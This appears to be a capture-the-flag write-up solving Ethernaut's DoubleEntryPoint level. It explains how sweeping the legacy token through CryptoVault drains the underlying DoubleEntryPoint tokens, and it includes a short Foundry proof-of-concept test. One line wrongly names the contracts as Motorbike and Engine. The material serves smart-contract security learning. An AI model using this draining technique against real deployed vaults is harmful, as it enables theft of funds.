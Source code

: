 # Level 26 - DoubleEntryPoint

## Objectives

- figure out where the bug is in `CryptoVault` and protect it from being drained out of tokens

## Contract Overview

Code consists of four contracts, `Motorbike` and `Engine`.

The `Forta` contract serves as a decentralized detection and alert system within the dApp. Key features include:

- Detection Bot Management: Users can register detection bots by setting their address using the `setDetectionBot` function.
- Notification Handling: The contract allows registered detection bots to handle transaction notifications through the notify function. Bots can raise alerts using the `raiseAlert` function.
- Storage Management: The contract maintains mappings of users to detection bots and detection bots to raised alerts.

The `CryptoVault` contract acts as a secure storage facility for swept tokens within the dApp. Key features include:

- Initialization: The contract is initialized with a recipient address for swept tokens upon deployment.
- Underlying Token Management: The `setUnderlying` function allows the owner to set the underlying token contract address.
- Token Sweeping: The `sweepToken` function enables the transfer of tokens (excluding the underlying token) to the specified recipient address.

The `LegacyToken` contract represents a legacy ERC20 token within the dApp. Key features include:

- Token Minting: The `mint` function allows the owner to mint new tokens and assign them to a specified address.
- Delegate Contract Management: The `delegateToNewContract` function enables the owner to delegate token transfer functionality to a new contract address.
- Token Transfer: The `transfer` function overrides the standard ERC20 transfer function to delegate transfers to the specified delegate contract.

The `DoubleEntryPoint` contract functions as a gateway for token transfers within the dApp. Key features include:

- Initialization: Upon deployment, the contract is initialized with addresses for the legacy token, the CryptoVault, the Forta contract, and a player address. Additionally, 100 tokens are minted and allocated to the CryptoVault.
- Token Transfer: The contract overrides the standard ERC20 transfer function to delegate transfers to the specified delegate contract. It also ensures that only transactions originating from the legacy token contract trigger notifications to the Forta contract.
- Notification Handling: The contract implements a modifier to handle Forta notifications, facilitating the detection and alerting process for suspicious transactions.

## Finding the weak spots

Upon examining the `LegacyToken.sol` contract, we notice that `transfer` function looks interesting:

```solidity
    function transfer(address to, uint256 value) public override returns (bool) {
        if (address(delegate) == address(0)) {
            return super.transfer(to, value);
        } else {
            return delegate.delegateTransfer(to, value, msg.sender);
        }
    }

```

There's a conditional check to determine whether a delegate contract has been defined. If no delegate contract is set `(address(delegate) == address(0))`, the function utilizes the default logic provided by the ERC20 standard. However, if a delegate contract is defined, it invokes the `delegateTransfer` function of the delegate contract (`delegate.delegateTransfer(to, value, msg.sender)`).

In this context, the delegate contract refers to the `DoubleEntryPoint` contract itself. What does this imply? Essentially, when a transfer operation is initiated on the `LegacyToken`, it effectively delegates the transfer process to execute the `DoubleEntryPoint.delegateTransfer` function. To fully understand this mechanism, let's examine the `delegateTransfer` function from `DoubleEntryPoint` contract.

```solidity
    function delegateTransfer(address to, uint256 value, address origSender)
        public
        override
        onlyDelegateFrom
        fortaNotify
        returns (bool)
    {
        _transfer(origSender, to, value);
        return true;
    }

```

This function is overriding `delegateTransfer` function from `DelegateERC20` interface.

```solidity

interface DelegateERC20 {
    function delegateTransfer(address to, uint256 value, address origSender) external returns (bool);
}

```

What is more, the function has two important modifiers:

- `onlyDelegateFrom`: This modifier restricts the function to be called only by the delegate contract specified during deployment, which is the `LegacyToken` contract. Without this modifier, anyone could call the function directly, bypassing the intended delegation mechanism.
- `fortaNotify`: This modifier incorporates specific logic related to the Forta functionality.

The function itself is straightforward. It invokes the internal implementation of the ERC20 `_transfer` function. It's worth noting that `_transfer` only verifies that the `to` and `origSender` addresses are not `address(0)`, and that the `origSender` has sufficient tokens to transfer to `to`. However, it doesn't verify that `origSender` is the actual `msg.sender`, or that the spender has enough allowance. This is precisely why the `onlyDelegateFrom` modifier is crucial in ensuring the intended behavior of the delegation mechanism.

That is why the issue lies in the interaction between the `LegacyToken` and `DoubleEntryPoint` contracts. `LegacyToken`'s transfer function mirrors `DoubleEntryPoint`'s `delegateTransfer` function, allowing the transfer of `DoubleEntryPoint` tokens instead of `LegacyToken` tokens.

Since `CryptoVault`'s `underlying` token is `DoubleEntryPoint`, it prohibits sweeping `DoubleEntryPoint` tokens to prevent loss of funds. However, `LegacyToken`'s behavior enables omitting this restriction. By calling `CryptoVault`'s sweep function with the address of the `LegacyToken` contract, all `DoubleEntryPoint` tokens held in the `CryptoVault` can be swept.

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/26-DoubleEntryPoin.t.sol))

```solidity


        CryptoVault vault = CryptoVault(
            ethernautDoubleEntryPoint.cryptoVault()
        );

        address DET = ethernautDoubleEntryPoint.cryptoVault();
        address LGT = ethernautDoubleEntryPoint.delegatedFrom();

        emit log_named_uint(
            "Balance of DET token before attack",
            ethernautDoubleEntryPoint.balanceOf(DET)
        );

        // attack
        vault.sweepToken(IERC20(LGT));

        emit log_named_uint(
            "Balance of DET token after attack",
            ethernautDoubleEntryPoint.balanceOf(DET)
        );

        // Test assertion
        assertEq(ethernautDoubleEntryPoint.balanceOf(DET), 0);

```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/DoubleEntryPoint.png)

## References

- [Blog Aditya Dixit](https://blog.dixitaditya.com/series/ethernaut)
- [Blog Stermi](https://stermi.xyz/blog/ethernaut-challenge-24-solution-double-entry-point)

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ)
